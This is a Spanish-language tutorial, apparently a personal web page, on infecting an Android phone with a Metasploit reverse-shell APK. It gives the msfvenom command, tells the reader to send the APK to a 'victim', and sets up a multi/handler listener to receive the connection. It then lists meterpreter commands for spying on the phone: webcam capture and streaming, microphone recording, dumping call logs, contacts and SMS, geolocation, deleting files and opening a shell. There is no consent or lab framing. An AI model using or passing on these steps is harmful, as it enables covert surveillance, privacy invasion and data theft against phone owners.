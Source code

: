 ## Crear un payload de Android usando Metasploit.

Buenas, Esto es una guía básica y sencilla para infectar un android a través de una apk infectada con un payload.

La herramienta Metasploit viene instalada por defecto en Kali Linux.

Lo primero, que es un payload?

Un payload es un virus o malware que consiste en realizar una acción (normalmente maliciosa) en un dispositivo que esté conectado dentro de nuestra red o fuera de otra. El fin que tiene un payload es tener control total y remoto del dispositivo que se quiera interceptar en cuestión.

Básicamente, es un virus que nos va a permitir controlar desde una consola un dispositivo.
(Poder hacer fotos, capturas, rastrear llamadas, borrar archivos y todo lo que te puedas imaginar)

¿Qué es Metasploit?

es una herramienta de hacking y pentesting destinada a la explotación y tests de penetración de una manera sencilla. Esta herramienta es conocida por ser como una "navaja suiza" para los hackers y prácticamente todas las distribuciones de Linux lo traen.

## Paso 1
Abrimos la aplicación "Metasploit" y escribimos el comando "msfvenom -p android/meterpreter/reverse_tcp LHOST=xxxx LPORT=xxxx R > name.apk"

El comando se divide en varias partes que son:

msfvenom -> Es la aplicación donde desarrollamos el payload

-p -> Estamos indicando que vamos a realizar un payload

android/meterpreter/reverse_tcp -> Es el tipo de payload que necesitamos

LHOST -> Es la IP que usará la aplicación para comunicarse con nosotros. Si se va a hacer dentro de la red nuestra el valor es 192.168.1.1 pero si es fuera de nuestra red deberá ser nuestra IP Pública

LPORT -> Es el puerto donde se conectará nuestra aplicación. Si la red es interna yo uso el puerto 8080 pero si es en una red exterior deberemos abrir el puerto que deseemos

R > name.apk -> Es la ruta donde almacenaremos el payload y con que nombre. La ruta por defecto (cuando ponemos solo el nombre, es la carpeta personal o la de root).

## Paso 2
Ahora, nuestro payload se ha guardado en la carpeta que tengamos por defecto en Kali Linux. ese archivo .apk es el que tenemos que envíar a la víctima.

Una vez hayamos introducido el payload en el móvil de nuestra víctima ponemos los siguientes comandos:

msfconsole -> Iniciamos la aplicación de monitoreo
use multi/handler
set PAYLOAD android/meterpreter/reverse_tcp -> Indicamos cual payload queremos detectar
set LHOST xxxx -> Indicamos la IP asignada al payload. (la misma que hemos asignado a la hora de generarlo)
set LPORT xxxx -> Indicamos el puerto asignado al payload (el mismo que hemos asignado a la hora de generarlo)
exploit  -> para iniciar el ataque.

Una vez llegados a este punto, si la víctima abre el apk deberemos tener control total sobre el teléfono.

## COMANDOS

Estos son todos los comandos que podemos ejecutar para controlar el android de la víctima.

meterpreter > pwd — Ubicacion actual directorio
meterpreter > cd cache — Cache
meterpreter > cat — Para ver archivos
meterpreter > ls — Listar archivos
meterpreter > upload <archivo> — Subir archivo
meterpreter > download <archivo> — Descargar archivo
meterpreter > ifconfig — Detalle configuracion redes
meterpreter > ps — Lista procesos
meterpreter > sysinfo — Informacion de sistema
meterpreter > webcam_list — Listado de webcam
meterpreter > webcam_snap -i 2 — Capturar imagen de camara 2
meterpreter > webcam_stream -l 2 — Streaming video de camara 2
meterpreter > record_mic -d 20 — Grabar 20s de audio
meterpreter > dump_calllog — Obtener registro de llamadas
meterpreter > dump_contacts — Obtener registro de contactos
meterpreter > geolocate — Obtener ubicacion del telefono
meterpreter > send_sms -d <num> -t text — Enviar SMS (deja huellas)
meterpreter > dump_sms — Ver los sms recibidos
meterpreter > route_list — Ruteo de direcciones
meterpreter > cd /sdcard — Lista archivos de SD Card
meterpreter > rm <archivo> — Eliminar archivo
meterpreter > rmdir <carpeta> — Eliminar carpeta
meterpreter > mkdir <dir> — Crear carpeta
meterpreter > search -f *.mp3 — Buscar archivos extension mp3
meterpreter > set_audio_mode -m 0 — 0:Silencio 1:Medio 2:Maximo
meterpreter > shell — Ejecutar una shell
> exit — Finaliza la shell


[Volver](https://minicompi4.github.io)
